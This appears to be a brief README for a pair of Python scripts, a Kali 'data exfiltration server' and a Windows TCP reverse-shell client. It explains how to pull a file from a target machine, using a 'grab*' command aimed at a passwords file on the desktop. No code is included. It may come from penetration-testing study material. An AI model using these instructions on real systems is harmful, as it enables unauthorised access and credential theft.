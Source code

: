 Kali : Data Exfiltration Server- TCP Reverse Shell.py

Target Win: Data Exfiltration Client - TCP Reverse Shell.py


grab file from the Target and send to Kali as a file /root/Desktop/1.txt

use below syntax:

grab*C:\users\Test\Desktop\passwords